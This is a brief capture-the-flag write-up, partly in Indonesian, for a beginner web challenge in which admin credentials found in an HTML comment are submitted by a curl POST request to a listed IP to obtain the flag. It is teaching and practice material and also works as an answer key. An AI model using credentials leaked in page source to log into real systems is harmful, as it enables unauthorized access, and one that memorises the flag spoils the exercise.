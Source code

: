 # POST Practice
This website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe there is still some way to authenticate? http://165.227.106.113/post.php
# Solved
Cek source tersebut
```html

<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->
```
Kita di berikan inputan untuk di kirimkan sebagai method <b>POST</b>
```
$ curl -d 'username=admin&password=71urlkufpsdnlkadsf' http://165.227.106.113/post.php
<h1>flag{p0st_d4t4_4ll_d4y}</h1>
```
Flag : <b>flag{p0st_d4t4_4ll_d4y}</b>